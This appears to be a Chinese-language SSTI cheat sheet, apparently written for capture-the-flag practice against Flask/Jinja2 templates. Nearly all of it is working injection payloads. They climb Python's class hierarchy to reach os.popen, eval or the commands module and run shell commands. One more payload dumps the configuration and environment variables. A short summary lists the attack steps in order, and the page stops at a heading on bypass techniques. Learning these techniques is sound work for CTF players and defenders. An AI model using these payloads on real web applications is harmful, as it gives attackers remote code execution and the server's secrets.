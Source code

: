 

命令执行：


```plain
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").popen("whoami").read()')

```



```plain
[].__class__.__base__.__subclasses__()[59].__init__.__globals__['linecache'].__dict__.values()[12].__dict__.values()[144]('whoami')

```



```plain
{}.__class__.__bases__[0].__subclasses__()[59].__init__.__globals__.__builtins__.__import__('os').popen('id').read()

```



```plain
{}.__class__.__bases__[0].__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('commands').getstatusoutput('ls')

```



总的来说：


首先就是判断，是否存在ssti模板注入点


确定找到注入点之后，由于flask等ssti模板都是由python编写，我们又可以在上面执行代码，于是就能够在ssti上查找框架中所包含的类


找到某个类之后继续调用，找到子类，父类等


最后通过找到的类中可能包含的函数os.。。。。在服务器端执行代码即可。


```plain
.__class__.__mro__//找基类
.__class__.__mro__[0].__subclasses__()//基类中的子类
{{"".__class__.__bases__[0].__subclasses__()[118].__init__.__globals__}}//.init.globals来找os类下的，init初始化类，然后globals全局来查找所有的方法及变量及参数。
.__class__.__bases__[0].__subclasses__()[118].__init__.__globals__['popen']('dir').read()//基类中的子类中的某个函数，执行并且调用。
{{config.__class__.__init__.__globals__['os'].environ}}这个是关于配置文件的，有时候FLAG也会放在配置文件之中。

```



## 绕过姿势
